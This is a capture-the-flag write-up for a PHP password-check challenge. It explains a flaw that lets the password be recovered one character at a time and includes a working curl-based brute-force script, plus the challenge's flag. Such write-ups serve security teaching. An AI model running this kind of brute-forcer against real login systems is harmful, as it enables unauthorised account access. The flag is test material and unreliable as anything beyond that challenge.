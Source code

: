 # Webhack 300

We were given the source code for a PHP function that handled comparsion between our input and a server's hidden password.

![](web-300/form.png)

```php
<?php
​
$GLOBALS['wrongpass'] = 'Wrong!'.PHP_EOL;
$GLOBALS['flaganswer'] = 'Right!'.PHP_EOL;
​
function checkpassword($user_supplied_password, $systempass)
{
  // Note: strlen returns NULL when used on arrays
  // Note: strlen returns the number of bytes, not characters
  $login_password_length = strlen($systempass);
  $supplied_password_len = strlen($user_supplied_password);
​
  # Mensagem de erro "palavra pass errada" - nao foi introduzido palavra passe
  // Note: NULL == 0   = 1
  if ($supplied_password_len == 0) {
    echo '1: '.$GLOBALS['wrongpass'];
  }
​
  for ($i = 0; $i < $supplied_password_len; $i++)
  {
    if ($i < $login_password_length) # Validar se a password do utilizador nao é maior que a password do sistema
    {
      if ($user_supplied_password[$i] != $systempass[$i])
      {
        echo "Bailing out on \$i = {$i}".PHP_EOL;
        echo '2: '.$GLOBALS['wrongpass']; # Mensagem de erro "palavra pass errada"
        break;
      }
      else if ($i == ($login_password_length - 1))
      {
        echo $GLOBALS['flaganswer']; # Chegou ao fim da string e os caractares estao todos certos
      }
    }
    else
    {
      echo '3: '.$GLOBALS['wrongpass'];
      break;
    }
  }
}
```

This is the given script, however with a bit of code cleanup, better identation and a few annotations I did when debugging.

The vulnerability here comes from the fact we have a character by character verification system where you only get an error message if the character doesn't match what's in the server, combined with the fact that you can control how many characters you want to verify - as the for cycle uses the supplied password length as a delimitator, not the server password length.

![](web-300/error.png) <br>
This is what you would get if the character verification check failed, the form with an error message

![](web-300/success.png) <br>
This is what you would get if none of the character verification checks failed, a blank page

Because of that, we can start by bruteforcing the first character only by sending a single character in the a-Z 0-9 range. If you send requests with all possible characters, one of these will not print out an error, meaning it's the correct one.

After finding the first character, we repeat the same thing for the next character and so on, until we have sucessfully obtained the entire password.

![](web-300/solver.png) <br>
And there we have it! After logging in with that password, you would get the flag: `flag{VULN3R@BLEP@SSW0RD_CH3CK3R}`

Here's the script I wrote to solve this one:

```php
<?php
​
$url = "https://summer2020.ctf.cert.rcts.pt/webhack-300.php";
$cr = curl_init();
$pool = array_merge(range('a', 'z'), range('A', 'Z'), range('0', '9'));
​
// Can't type hint resources
// See: https://bugs.php.net/bug.php?id=71518
function send_request_post($cr, string $url, string $password) : string
{
  $password = urlencode($password);
  curl_setopt($cr, CURLOPT_URL, $url);
  curl_setopt($cr, CURLOPT_POST, 1);
  curl_setopt($cr, CURLOPT_POSTFIELDS, "password={$password}&submit=+Login+");
  curl_setopt($cr, CURLOPT_RETURNTRANSFER, true);
  return curl_exec($cr);
}
​
function wrong(string $response) : bool
{
  return strpos($response, "<font color=\"red\">Password incorrecta!!</font>") !== false;
}
​
$answer = "";
​
while (true)
{
  foreach ($pool as $char)
  {
    $response = send_request_post($cr, $url, $answer.$char);
​
    if (!wrong($response))
    {
      $answer .= $char;
      var_dump($answer);
      break;
    }
​
    // End of password, exit out of both loops
    if ($char == end($pool))
    {
      break 2;
    }
  }
}
​
var_dump($answer);
```
